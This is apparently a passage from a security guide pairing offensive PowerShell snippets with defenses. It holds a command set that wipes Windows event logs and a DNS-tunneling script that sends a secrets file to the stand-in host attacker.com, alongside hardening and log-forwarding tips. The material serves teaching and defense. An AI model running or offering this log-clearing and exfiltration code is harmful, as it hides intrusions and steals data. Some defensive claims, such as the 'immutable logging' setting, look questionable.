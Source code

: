 **Defense**  
- Disable WMI if unused:  
  ```powershell
  Set-NetFirewallRule -DisplayGroup "Windows Management Instrumentation (WMI)" -Enabled False -Action Block
  ```  
- Enforce **NTLMv2-only authentication** (disables weaker LM/NTLMv1):  
  ```powershell
  Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\Lsa" -Name "LmCompatibilityLevel" -Value 5
  ```  

---

### **9. Defense Evasion: Clear Security Logs**  
#### **Offensive Code**  
```powershell
# Clear all event logs (Security, System, Application) to erase traces
wevtutil cl Security
wevtutil cl System
wevtutil cl Application
```  
**How It Works**  
- Uses `wevtutil` (built-in Windows tool) to purge event logs.  
- Often paired with **meterpreter's `clearev`** in penetration testing.  

**Defense**  
- Forward logs to a SIEM to prevent local tampering:  
  ```powershell
  # Example: Install Winlogbeat (Elasticsearch) to ship logs
  Invoke-WebRequest -Uri "https://artifacts.elastic.co/downloads/beats/winlogbeat/winlogbeat-7.14.1-windows-x86_64.zip" -OutFile "C:\winlogbeat.zip"
  Expand-Archive -Path "C:\winlogbeat.zip" -DestinationPath "C:\Program Files\"
  ```  
- Enable **immutable logging** (Windows 10+):  
  ```powershell
  Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\WMI\Autologger\EventLog-Security" -Name "Enabled" -Value 1
  ```  

---

### **10. Data Exfiltration: DNS Tunneling**  
#### **Offensive Code**  
```powershell
# Exfiltrate data via DNS TXT queries (split into chunks)
$data = [Convert]::ToBase64String([IO.File]::ReadAllBytes("C:\secrets.txt"))
$chunks = $data -split '(?<=\G.{63})'  # Split into 63-byte chunks (DNS limit)
foreach ($chunk in $chunks) {
  Resolve-DnsName -Name "$chunk.attacker.com" -Type TXT -ErrorAction SilentlyContinue
  Start-Sleep -Seconds 1  # Avoid rate-limiting
}
```  
**How It Works**  
- Encodes stolen files into base64 and sends them as subdomains in DNS TXT queries.  
- Uses DNS because it’s rarely inspected for payloads.  
